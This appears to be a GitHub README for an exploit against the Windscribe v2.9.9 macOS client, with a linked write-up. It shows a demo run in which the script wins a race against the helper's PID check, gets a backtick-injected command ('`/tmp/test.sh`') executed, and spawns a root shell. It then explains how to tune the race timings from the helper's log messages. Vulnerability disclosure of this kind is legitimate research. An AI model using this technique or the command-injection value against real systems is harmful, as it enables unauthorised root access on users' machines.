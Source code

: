 ### About

This is the exploit for Windscribe's v2.9.9 macOS client.

Blogpost is here:
[http://127.0.0.1:8000/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html](http://127.0.0.1:8000/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html)


### Demo:
```
$ ./windscribe_attitude_check.py 
[+] Preparing
[+] Opening windscribe log file
[+] Launching exploit
[+] Try 0/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96804
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96804: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 1/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96805
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96805: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 2/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96806
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96806: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 3/100
[?] LOGLINE [120424 12:22:30:000] [service]	client app connected
[?] LOGLINE [120424 12:22:30:000] [service]	HelperSecurity::verifyProcessId: new PID 96807
[?] LOGLINE [120424 12:22:30:000] [service]	Invalid app/bundle name for PID 96807: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:30:000] [service]	client app disconnected

...

[+] Try 61/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app connected
[?] LOGLINE [120424 12:22:36:000] [service]	HelperSecurity::verifyProcessId: new PID 96865
[?] LOGLINE [120424 12:22:36:000] [service]	Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`
[+] Try 62/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app disconnected
[+] PWNED :)
[+] Spawning shell

The default interactive shell is now zsh.
To update your account to use zsh, please run `chsh -s /bin/zsh`.
For more details, please visit https://support.apple.com/kb/HT208050.
bash-3.2#
```



### Instructions to debug the race timings:

The messages in `/Library/Logs/com.windscribe.helper.macos/helper_log.txt`
will tell us what's happening (in order):

- we connected
  "client app connected"
- our child was still running at the time of the pid check (good)
 "HelperSecurity::verifyProcessId: new PID 94943"
 - our child process terminated too early (PARENT_KILL_WAIT_TIME too small):
 "Failed to get app/bundle name for PID 95202"
- we crashed the helper process (our data killed the boost parser most likely)
 "Windscribe helper terminated"
- child execve() was too early (CHILD_POST_SEND_WAIT_TIME too small):
  "getsockopt(LOCAL_PEERID) failed (57)."
- child execve() was too late (CHILD_POST_SEND_WAIT_TIME too large):
  "Invalid app/bundle name for PID 94535: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'"
- we won the race:
  "Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`"

